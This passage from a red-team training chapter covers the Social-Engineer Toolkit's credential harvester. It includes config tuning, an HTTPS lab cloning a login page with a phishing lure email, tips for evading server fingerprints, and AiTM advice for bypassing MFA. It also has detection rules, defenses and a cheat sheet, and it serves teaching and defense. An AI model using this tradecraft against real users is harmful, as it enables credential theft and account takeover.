| Password only | SET Credential Harvester | Simplest, fastest, sufficient |
| Password + TOTP/SMS/push | AiTM proxy (evilginx2) | Steals post-MFA session cookie |
| FIDO2 / passkeys | Neither harvests cleanly | Origin-bound crypto defeats proxy; pivot to other TTPs |

**Even against MFA, SET is not worthless:** harvested passwords frequently unlock *secondary* systems without MFA (legacy VPN, IMAP, an internal wiki), and they seed password-spray and credential-stuffing lists. But do not walk into an MFA-protected engagement expecting a static clone to grant access — scope your tooling to the target's real auth posture up front.

### 11.1 Real-world cases that prove the point

The industry-wide shift from static harvesters to AiTM proxies is visible in the public breach record:

- **The 0ktapus / Scatter Swine campaign (2022)** phished 100+ organizations by texting employees links to look-alike Okta login pages. Where targets used only password + SMS OTP, a real-time relay captured both and rode the session in — the very MFA-bypass mechanic described above. Downstream victims included Twilio and, through it, Signal; the campaign is the canonical example of "SMS MFA is phishable."
- **The Microsoft-reported AiTM phishing wave** documented adversaries proxying Microsoft 365 logins with tools of the evilginx family, stealing the post-MFA session cookie and using it for business email compromise (BEC) and payment fraud — the session cookie, not the password, was the prize.
- **Phishing-as-a-Service (PhaaS) kits** such as EvilProxy and the "Storm-1167"/Tycoon-style toolkits productized AiTM: subscribers get hosted reverse-proxy infrastructure that defeats password + app-code MFA out of the box. This is why "we have MFA" is no longer, by itself, a phishing defense.
- **The contrast case:** organizations that had rolled out **FIDO2 security keys / passkeys** were, in these same campaigns, structurally protected — the origin-bound WebAuthn assertion cannot be relayed through a proxy on a different domain. Google publicly credited hardware security keys with eliminating employee phishing takeovers after mandating them.

The lesson for both chairs is identical: a SET-style static harvester is a *training-wheels* model of a real credential attack; the production adversary uses AiTM against MFA and is stopped only by phishing-resistant authentication.

---

## Part 12: Tuning `set.config` — Making SET Behave

SET's behavior is governed by `/etc/setoolkit/set.config`. Option `5) Update SET configuration` from the main menu, or edit the file directly. The settings that matter most:

```ini
# /etc/setoolkit/set.config (key excerpts)

# Use Apache instead of SET's built-in Python server (better for concurrency/TLS)
APACHE_SERVER=OFF
APACHE_DIRECTORY=/var/www/html

# Auto-redirect the victim to the real site after capture
HARVESTER_REDIRECT=ON
HARVESTER_URL=https://login.example-corp.test/

# Where Metasploit lives (for payload vectors)
METASPLOIT_PATH=/usr/share/metasploit-framework

# Self-signed cert generation for HTTPS clones
WEBATTACK_SSL=OFF

# Email sending
SENDMAIL=OFF
EMAIL_PROVIDER=GMAIL
```

Operationally important toggles:

- **`APACHE_SERVER=ON`** switches the web front-end to Apache, which handles many concurrent victims far better than SET's single-threaded Python server and lets you terminate TLS properly with real certs. For any multi-user simulation, turn this on and place clones under `APACHE_DIRECTORY`.
- **`WEBATTACK_SSL=ON`** makes SET serve over HTTPS. A modern credential-phish must be HTTPS — browsers flag plain HTTP login forms as "Not secure," instantly killing plausibility. In an engagement you front the harvester with a real certificate (Let's Encrypt on your look-alike domain), typically via a reverse proxy, not SET's self-signed cert.
- **`HARVESTER_REDIRECT` / `HARVESTER_URL`** control the post-capture 302. Point `HARVESTER_URL` at the *real* login so the victim's "failed" attempt looks routine.

**Blue team relevance:** SET's built-in server historically emitted a recognizable `Server:` banner and default TLS/self-signed-cert fingerprint. Turning on Apache/real TLS is precisely how operators *evade* those fingerprints — so as a defender, don't rely solely on server-banner signatures; key on the structural artifact (a login form POSTing off-brand) instead.

---

## Part 13: Hands-On Lab B — Spear-Phish to Harvester With Apache + HTTPS

This lab upgrades Lab A to a more realistic setup: Apache-served clone over HTTPS, driven by a lure email, all within your lab network.

### 13.1 Switch SET to Apache and enable SSL

```bash
sudo sed -i 's/^APACHE_SERVER=OFF/APACHE_SERVER=ON/' /etc/setoolkit/set.config
sudo sed -i 's/^WEBATTACK_SSL=OFF/WEBATTACK_SSL=ON/' /etc/setoolkit/set.config
sudo systemctl enable --now apache2
```

- `sed -i 's/old/new/' file` edits in place (`-i`) using a substitution (`s///`); here we flip two config flags without opening an editor.
- `systemctl enable --now apache2` both enables Apache at boot (`enable`) and starts it immediately (`--now`).

### 13.2 Generate a lab certificate (so HTTPS doesn't scream)

For a lab, a self-signed cert added to the victim VM's trust store is enough; in a real engagement you'd use a publicly-trusted cert on your look-alike domain.

```bash
openssl req -x509 -newkey rsa:2048 -nodes \
  -keyout /etc/ssl/private/portal.key \
  -out /etc/ssl/certs/portal.crt \
  -days 30 -subj "/CN=portal.example-corp.test"
```

- `req -x509` creates a self-signed certificate (not a CSR).
- `-newkey rsa:2048` generates a fresh 2048-bit RSA key alongside it.
- `-nodes` ("no DES") leaves the private key unencrypted so Apache can read it without a passphrase.
- `-days 30` sets validity; `-subj` sets the certificate subject non-interactively.

Trust it on the victim VM (lab only) so the browser shows a padlock, reproducing the plausibility a real trusted cert provides.

### 13.3 Clone under Apache

Run SET's Site Cloner as in Lab A, but with `APACHE_SERVER=ON` it deposits the cloned page into `/var/www/html` and Apache serves it. Confirm:

```bash
ls /var/www/html/
# index.html   (the cloned portal)
curl -sk https://192.168.56.10/ | grep -i '<form'
# <form method="POST" action="/">
```

- `curl -sk` fetches quietly (`-s`) and ignores the self-signed cert warning (`-k`); piping to `grep -i '<form'` confirms the rewritten form action points back to SET.

### 13.4 Send the lure with the Mass Mailer

Using SET `1 → 5 → 1` (Single Email), compose a plausible internal notice:

```
From:    it-support@example-corp.test
Subject: Action required: re-authenticate to the Example-Corp Portal
Body:    We have upgraded SSO. Please sign in once to re-establish your
         session: https://portal.example-corp.test/
```

In the lab, point SET's SMTP at your own mail VM (or a local `smtp` catcher like `python3 -m aiosmtpd -n -l 0.0.0.0:25` to inspect the message without real delivery). Confirm the message body contains the HTTPS harvester link.

### 13.5 Execute and verify

From the victim VM, open the emailed link, submit a **test** credential, and watch the Apache access log and SET capture:

```bash
sudo tail -f /var/log/apache2/access.log
# 192.168.56.30 - - [21/Jan/2027:06:41:11] "GET / HTTP/1.1" 200 1732 "-" "Mozilla/5.0 ..."
# 192.168.56.30 - - [21/Jan/2027:06:41:19] "POST / HTTP/1.1" 302 -
```

Read the harvest file as in Lab A. You have now reproduced a realistic, HTTPS-fronted, email-driven credential-harvest simulation end to end — and generated exactly the log artifacts a defender would hunt for in the next part. **Tear down:** stop Apache, remove `/var/www/html/index.html`, `shred` the harvest files, and delete the lab cert.

---

## Part 14: Detection & Defense Angle — The Blue-Team Playbook

Everything SET does leaves detectable artifacts. This consolidated section is the defender's counterpart to the whole chapter.

### 14.1 Detect the cloned page and the off-brand POST

The structural invariant of a credential harvester is a **login form that submits to a host different from the brand it imitates**. Defenses that key on this:

- **Brand-impersonation / DOM-diff detection** in modern SEGs and browser protections (Microsoft Defender SmartScreen, Google Safe Browsing) compare a page's rendered login form and branding against known-good originals and flag look-alikes.
- **Certificate Transparency monitoring**: watch CT logs (via crt.sh, Facebook CT, or a commercial feed) for newly-issued certificates on look-alike domains (`examp1e-corp.com`, `example-corp-sso.com`). A cert minted hours before a campaign is a strong pre-emptive signal.
- **Newly-registered-domain (NRD) blocking**: SEGs and DNS filters quarantine links to domains registered within the last N days — most phishing infrastructure is fresh.

### 14.2 Detect the delivery

- **Inbound mail authentication**: enforce DMARC `p=reject` on your own domains so *inbound* spoofs of your brand are dropped (Chapter 4). Alert on look-alike display names (`"IT Support <it-support@examp1e-corp.test>"`).
- **URL rewriting / time-of-click protection** (Safe Links-style) re-checks the destination at click time, catching pages that were clean at delivery and armed later.
- **QR decoding** at the gateway to catch quishing that hides the URL in an image.

### 14.3 Detect the login-side abuse (the part that actually stops breaches)

Because harvested credentials get *replayed*, identity-layer detection is your highest-value control:

- **Impossible-travel / anomalous-sign-in** analytics (Entra ID Protection, Okta ThreatInsight): the harvested credential is replayed from the attacker's IP/geo/ASN, which rarely matches the user's baseline.
- **Phishing-resistant MFA**: **FIDO2/passkeys** cryptographically bind auth to the real origin, defeating both static harvesters and AiTM proxies. This is the single most effective control in this chapter.
- **Session-anomaly detection** for the AiTM case: a stolen session cookie replayed from a new device/IP, or token-binding/continuous-access-evaluation (CAE) that revokes tokens on risk signals.

### 14.4 Detection signal summary



| Layer | Signal | Control |
|-------|--------|---------|
| Infrastructure | New look-alike cert/domain | CT monitoring, NRD block |
| Email | Spoofed sender, malicious link | DMARC reject, URL rewrite |
| Web capture | Off-brand login form POST | SmartScreen/Safe Browsing, DOM-diff |
| Endpoint (payload vectors) | `mshta`/`powershell -enc` child | Script-block logging, WDAC, EDR |
| Identity | Replay from anomalous context | Impossible-travel, FIDO2, CAE |

### 14.5 Concrete detections you can deploy

Detection is not abstract — here are two rules that catch the artifacts this chapter generates.

A **Sigma rule** for the payload-vector tell (a browser or Office process spawning an encoded PowerShell child, i.e. the SET PowerShell/HTA vectors landing):

```yaml
title: Suspicious Encoded PowerShell Spawned by Browser/Office
logsource:
  category: process_creation
  product: windows
detection:
  selection_parent:
    ParentImage|endswith:
      - '\chrome.exe'
      - '\msedge.exe'
      - '\winword.exe'
      - '\excel.exe'
      - '\outlook.exe'
      - '\mshta.exe'
  selection_child:
    Image|endswith: '\powershell.exe'
    CommandLine|contains:
      - '-enc'
      - '-EncodedCommand'
      - 'FromBase64String'
  condition: selection_parent and selection_child
level: high
tags:
  - attack.execution
  - attack.t1059.001
```

A **KQL query** (Microsoft Sentinel / Defender) for the identity-layer replay — the sign-in that follows a successful harvest, arriving from an unexpected location:

```kql
SigninLogs
| where ResultType == 0                       // successful auth
| where RiskLevelDuringSignIn in ("high","medium")
| extend asn = tostring(parse_json(NetworkLocationDetails))
| summarize logins = count(),
            countries = make_set(Location),
            ips = make_set(IPAddress)
    by UserPrincipalName, bin(TimeGenerated, 1h)
| where array_length(countries) > 1           // same user, two countries in an hour
| sort by logins desc
```

Both rules map to the campaign lifecycle in 14.4: the Sigma rule catches the endpoint stage, the KQL catches the credential-replay stage. Pair them with the mail- and infra-layer controls and you cover the whole chain.

The most important defensive takeaway: **you cannot fully prevent a user from typing a password into a convincing page, so invest where it counts — phishing-resistant MFA and identity-layer anomaly detection — so that a captured password is worthless.**

---

## Part 15: Common Pitfalls & Misconfigurations

Operators (and students) trip over the same issues repeatedly:

- **Cloning an SPA/IdP login and getting a blank or broken page.** Microsoft/Okta/Google logins render the form client-side and submit via API; SET's classic form rewrite doesn't apply. Use Custom Import with a hand-built page, or switch to an AiTM proxy — don't waste engagement time fighting the cloner.
- **Serving over plain HTTP.** Browsers label HTTP login forms "Not secure," killing plausibility instantly. Always front the harvester with HTTPS and a trusted cert.
- **POST-back IP the victim can't reach.** If you set the POST-back to `127.0.0.1` or a NAT-internal address the victim can't route to, captures silently fail. Use the address the victim actually connects to (your redirector/VPS public IP in an engagement).
- **Expecting MFA bypass from a static clone.** Covered at length in Part 11 — scope tooling to the target's auth *before* building.
- **Leaving harvested data lying around.** Captured credentials are the most sensitive data of the engagement. Encrypt at rest, restrict access, and `shred`/securely destroy per RoE. Mishandling client credentials is a contract-ending, potentially legal event.
- **Sending bulk mail through SET in production.** SET's mailer is noisy and easily flagged; use dedicated, warmed infrastructure (GoPhish + proper SPF/DKIM/DMARC from Chapter 4) for real campaigns.
- **Updating SET via its own menu on Kali.** This can desync the packaged install; update via `apt` or `git pull` in `/opt/set`.
- **Forgetting the redirect target.** If `HARVESTER_REDIRECT` is off or points nowhere, the victim lands on a blank page after submitting — a huge tell. Always redirect to the real login.

---

## Part 16: Final Revision / Summary

- **SET** is a menu-driven social-engineering framework (Kennedy/TrustedSec) bundled with Kali; run it with `sudo setoolkit`.
- Its core feature, the **Credential Harvester**, clones a login page, rewrites the form to POST to you, logs the plaintext credentials to `~/.set/harvester_*.txt`, and 302-redirects the victim to the real site.
- Build the capture page three ways: **Web Templates** (fast, stale), **Site Cloner** (live, the workhorse), **Custom Import** (hand-built, best for SPA/IdP logins).
- **Web Jacking** and **Tabnabbing** change how the victim arrives, but both still end in an off-brand credential POST — which is what defenders detect.
- **Spear-Phishing / Mass Mailer** deliver the lure, and delivery success hinges on the Chapter 4 email-authentication stack; production campaigns use GoPhish + warmed infra, not SET's mailer.
- **Payload vectors** (PowerShell, HTA, infectious media, file-format) deliver code execution, kept lab-scoped, and are stopped at the endpoint by script-block logging, WDAC/AppLocker, and EDR.
- **QR (quishing)** and **rogue AP** vectors map to current trends and cross over with the Wireless notebook.
- **The decisive limitation:** a static harvester captures a password but not a session, so it **fails against MFA**. AiTM reverse proxies (evilginx2) exist precisely to steal the post-MFA session cookie; **FIDO2/passkeys** defeat both.
- **Defense in depth:** CT/NRD monitoring on infrastructure, DMARC + URL rewriting on delivery, brand/DOM detection on capture, EDR on payloads, and — most importantly — **phishing-resistant MFA and identity-layer anomaly detection** so a stolen password is worthless.

---

## Part 17: Cheat Sheet / Quick Reference

### SET navigation (muscle memory)

```
sudo setoolkit
 1  Social-Engineering Attacks
   2  Website Attack Vectors
     3  Credential Harvester Attack Method
       1  Web Templates      (fast, stale)
       2  Site Cloner        (live clone — default)
       3  Custom Import      (hand-built page)
     4  Tabnabbing
     5  Web Jacking
     7  HTA Attack
   1  Spear-Phishing Attack Vectors
   5  Mass Mailer Attack
   8  QRCode Generator
   7  Wireless Access Point
 5  Update SET configuration (edits /etc/setoolkit/set.config)
```

### Key files

```
/etc/setoolkit/set.config         # main config (Apache, SSL, redirect, MSF path)
~/.set/harvester_<timestamp>.txt   # captured credentials (SECURE + DESTROY)
~/.set/reports/                    # generated reports
/var/www/html/                     # cloned page when APACHE_SERVER=ON
```

### Config toggles that matter

```ini
APACHE_SERVER=ON          # concurrency + real TLS
WEBATTACK_SSL=ON          # serve HTTPS (browsers demand it)
HARVESTER_REDIRECT=ON     # 302 victim to real site after capture
HARVESTER_URL=https://real-login/   # the redirect target
```

### One-liners used in the labs

```bash
python3 -m http.server 80                        # stand up a target login page
curl -sk https://ATTACKER/ | grep -i '<form'      # verify rewritten form action
sudo tail -f /var/log/apache2/access.log          # watch captures live (Apache mode)
cat "$(ls -t ~/.set/harvester_* | head -1)"       # read latest capture
shred -u ~/.set/harvester_*.txt                   # securely destroy captured data
```

### Tool-selection rule

| Target auth | Use |
|-------------|-----|
| Password only | SET Credential Harvester |
| Password + TOTP/SMS/push | AiTM proxy (evilginx2) |
| FIDO2 / passkeys | Neither harvests cleanly — pivot TTPs |

### Defender's five highest-value controls

1. **FIDO2 / passkeys** (phishing-resistant MFA) — origin-bound, defeats clones and AiTM.
2. **Impossible-travel / risky-sign-in** analytics on the identity layer.
3. **DMARC `p=reject`** + URL-rewriting / time-of-click on mail.
4. **CT-log + newly-registered-domain** monitoring for look-alike infra.
5. **EDR + script-block logging + WDAC** for the payload vectors.

---

## Part 18: Practice Labs & Resources

Train the exact skills in this chapter against **lawful, intentionally-vulnerable** targets:

- **TryHackMe — "Phishing" module** (rooms such as *Phishing Analysis Fundamentals*, *Phishing Analysis Tools*, *The Greenholt Phish*): build and analyze phishing artifacts, including credential-harvest pages and header forensics, in a sanctioned environment.
- **TryHackMe — "SET / Social Engineering"** and the *Red Team* pathway modules: hands-on with the Social-Engineer Toolkit in a contained lab.
- **PortSwigger Web Security Academy** — while focused on web bugs, the *Authentication* and *OAuth* labs teach precisely the login flows (and MFA/session mechanics) that determine whether a static harvester or an AiTM proxy is the right tool.
- **evilginx2 official docs + a throwaway lab tenant** (a free Microsoft 365 developer tenant or a self-hosted app): reproduce the AiTM session-cookie-theft path from Part 11 lawfully against your own accounts to feel the difference from static capture.
- **GoPhish** (getgophish.com) on your own VMs: run the delivery side properly with the Chapter 4 email-authentication stack, measuring click/submit rates without SET's noisy mailer.
- **Your own three-VM lab** (as in Labs A and B): the single best way to internalize SET is to clone your own portal, phish yourself, read the capture, and then write the detection for it — do both chairs.
- **HackTheBox Academy — "Introduction to Phishing" / "Social Engineering"** modules for structured, guided practice with reporting.
- **MITRE ATT&CK** techniques to map your work to a common language: **T1566** (Phishing), **T1566.002** (Spearphishing Link), **T1598** (Phishing for Information), **T1056.003** (Web Portal Capture), and **T1557** (Adversary-in-the-Middle) — read the detection and mitigation sections for each.

Do every lab against infrastructure and accounts **you own or are explicitly authorized to test**, destroy captured data when finished, and write the corresponding detection for each attack you run — that dual offense-and-defense habit is what separates a professional from a script-runner. The next chapter continues the Red Team track by building on these delivery primitives.
